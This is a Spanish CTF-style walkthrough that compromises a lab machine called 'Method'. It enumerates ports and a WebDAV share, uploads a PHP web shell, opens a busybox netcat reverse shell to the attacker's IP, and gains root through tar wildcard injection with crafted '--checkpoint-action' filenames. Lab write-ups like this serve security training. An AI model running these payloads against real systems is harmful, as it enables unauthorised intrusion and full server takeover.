


## Table of contents

## Enumeración

La máquina Method tiene la ip **10.0.2.53**

### Descubrimiento de Puertos

Vamos a empezar enumerando todos los puertos abiertos de la máquina, así como los servicios y las versiones que se están ejecutando en ellos mediante la herramienta **nmap**.

```bash
nmap -sS -p- --open --min-rate 5000 -sCV -n -Pn 10.0.2.53

Nmap scan report for 10.0.2.53
Host is up (0.00016s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u7 (protocol 2.0)
| ssh-hostkey: 
|   3072 f0:e6:24:fb:9e:b0:7a:1a:bd:f7:b1:85:23:7f:b1:6f (RSA)
|   256 99:c8:74:31:45:10:58:b0:ce:cc:63:b4:7a:82:57:3d (ECDSA)
|_  256 60:da:3e:31:38:fa:b5:49:ab:48:c3:43:2c:9f:d1:32 (ED25519)
80/tcp open  http    lighttpd 1.4.59
|_http-server-header: lighttpd/1.4.59
|_http-title: Welcome page
MAC Address: 08:00:27:02:39:17 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Puerto 80 (Web)

Accedemos con el navegador a la ip y vemos la página por defecto del web server **lighttpd**



Vamos a emplear **ffuf** para enumerar subdirectorios.

```bash
ffuf -c -u "http://10.0.2.53/FUZZ" -w /usr/share/wordlist/SecLists/Discovery/Web-Content/common.txt

 :: Method           : GET
 :: URL              : http://10.0.2.53/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlist/SecLists/Discovery/Web-Content/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

webdav                  [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 7ms]
```

## Explotación 

Tenemos un **webdav**, el cual es un protocolo que nos permite guardar archivos, editarlos, moverlos y compartirlos en un servidor web.

Al tratar de acceder a él con el navegador no nos solicita credenciales pero nos arroja un código de estado 403 Forbidden, por lo que vamos a emplear **davtest** para ver si podemos subir algún archivo.

```bash
davtest --url "http://10.0.2.53/webdav"

********************************************************
 Testing DAV connection
OPEN            SUCCEED:                http://10.0.2.53/webdav
********************************************************
NOTE    Random string for this session: O7g4tR
********************************************************
 Creating directory
MKCOL           SUCCEED:                Created http://10.0.2.53/webdav/DavTestDir_O7g4tR
********************************************************
 Sending test files
PUT     asp     FAIL
PUT     aspx    FAIL
PUT     jhtml   FAIL
PUT     php     FAIL
PUT     cfm     FAIL
PUT     pl      FAIL
PUT     jsp     FAIL
PUT     cgi     FAIL
PUT     shtml   FAIL
PUT     html    SUCCEED:        http://10.0.2.53/webdav/DavTestDir_O7g4tR/davtest_O7g4tR.html
PUT     txt     FAIL
********************************************************
 Checking for test file execution
EXEC    html    FAIL

********************************************************
/usr/bin/davtest Summary:
Created: http://10.0.2.53/webdav/DavTestDir_O7g4tR
PUT File: http://10.0.2.53/webdav/DavTestDir_O7g4tR/davtest_O7g4tR.html
```

Hemos podido subir un archivo **html** por lo que vamos a crear un archivo con esa extensión pero que contenga código de php.

```bash
echo '<?php system($_GET["cmd"]);?>' > shell.html
```

Ahora usamos **cadaver** para conectarnos al **webdav** y subir el archivo.

```bash
cadaver "http://10.0.2.53/webdav"

dav:/webdav/> ls
Listing collection `/webdav/': succeeded.
Coll:   DavTestDir_O7g4tR                   4096  Jul 12 16:27

dav:/webdav/> put shell.html 
Uploading shell.html to `/webdav/shell.html':
Progress: [=============================>] 100.0% of 30 bytes succeeded.

dav:/webdav/> ls
Listing collection `/webdav/': succeeded.
Coll:   DavTestDir_O7g4tR                   4096  Jul 12 16:27
        shell.html                            30  Jul 12 16:30
```

No nos ha pedido ninguna autenticación y hemos podido subir el archivo html. Ahora vamos a renombrar el **shell.html** como **shell.php** para que podamos ejecutar comandos.

```bash
dav:/webdav/> rename shell.html shell.php

Renaming `/webdav/shell.html' to `/webdav/shell.php': succeeded.
```

Ya tenemos el archivo con extensión php. Apuntamos al **shell.php** y le pasamos un comando con el parámetro **cmd**

```bash
curl -s 'http://10.0.2.53/webdav/shell.php?cmd=id'

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Conseguimos un **Remote Code Execution** (**RCE**), así que nos vamos a enviar una reverse shell utilizando **busybox**.

Nos ponemos en escucha en nuestra máquina con **netcat**.

```bash
nc -nlvp 4444
```

Y nos mandamos la reverse shell.

```bash
curl -s 'http://10.0.2.53/webdav/shell.php?cmd=busybox+nc+10.0.2.38+4444+-e+/bin/bash'
```

Entramos como **www-data**

```bash
www-data@method:/home/www-data$ ls -la
total 12
drwxr-xr-x 2 www-data www-data 4096 Jul 12 13:43 .
drwxr-xr-x 3 root     root     4096 Jul 11 10:36 ..
-r-------- 1 www-data www-data   33 Jul 11 10:36 user.txt
``` 

## Escalada de Privilegios
### Root

Vamos a utilizar **pspy64** para ver las tareas que se ejecutan periódicamente en el server.

- **https://github.com/DominicBreuker/pspy**

Para pasalo al servidor levantamos un servicio http con python en el directorio donde tenemos el pspy64.

```bash
python3 -m http.server 80
```

Desde la máquina lo descargamos, le damos permisos de ejecución y lo ejecutamos.

```bash
curl -s http://10.0.2.38/pspy64 -o /tmp/pspy64 && chmod +x /tmp/pspy64
```

```bash
/tmp/pspy64

2026/07/12 15:47:01 CMD: UID=0     PID=678    | /bin/sh -c cd /var/www/html/webdav/ && tar -zcf /var/backups/webdav.tgz * 
2026/07/12 15:47:01 CMD: UID=0     PID=679    | tar -zcf /var/backups/webdav.tgz shell.php 
2026/07/12 15:47:01 CMD: UID=0     PID=680    | /bin/sh -c gzip 
```

Vemos que el usuario **root** crea un archivo con **tar** al que le añade todos los archivos del directorio **/var/www/html/webdav**. 

Como en ese directorio tenemos permisos de escritura podemos controlar el input que recibe el tar y hacer que **root** nos ejecute un script para darle permisos **SUID** a la bash.

Creamos los archivos en el directorio **/var/www/html/webdav**

```bash
www-data@method:~/html/webdav$ echo 'chmod u+s /bin/bash' > run.sh
www-data@method:~/html/webdav$ echo "" > "--checkpoint-action=exec=sh run.sh"
www-data@method:~/html/webdav$ echo "" > --checkpoint=1
```

El directorio nos quedaría así.

```bash
www-data@method:~/html/webdav$ ls -la
total 24
-rw-r--r-- 1 www-data www-data    1 Jul 12 16:05 '--checkpoint-action=exec=sh run.sh'
-rw-r--r-- 1 www-data www-data    1 Jul 12 16:05 '--checkpoint=1'
drwxr-xr-x 2 www-data www-data 4096 Jul 12 16:05  .
drwxr-xr-x 3 www-data www-data 4096 Jul 10 14:05  ..
-rw-r--r-- 1 www-data www-data   20 Jul 12 16:05  run.sh
-rw-r--r-- 1 www-data www-data   30 Jul 12 13:03  shell.php
```

Esperamos un poco y la **bash** obtiene permisos **SUID**, por lo que nos lanzamos una bash privilegiada con "**bash -p**" y ya somos **root**.
```bash
www-data@method:~/html/webdav$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1234376 Mar 27  2022 /bin/bash

www-data@method:~/html/webdav$ bash -p
bash-5.1# whoami
root
bash-5.1# ls -la /root
total 28
drwx------  3 root root 4096 Jul 11 10:44 .
drwxr-xr-x 17 root root 4096 Jul 10 19:33 ..
lrwxrwxrwx  1 root root    9 Apr 23  2023 .bash_history -> /dev/null
-rw-------  1 root root 3526 Jan 15  2023 .bashrc
drw-------  3 root root 4096 Jan 15  2023 .local
-rw-------  1 root root  161 Jul  9  2019 .profile
-rw-r--r--  1 root root   66 Jul 10 19:49 .selected_editor
-r--------  1 root root   33 Jul 11 10:44 root.txt
```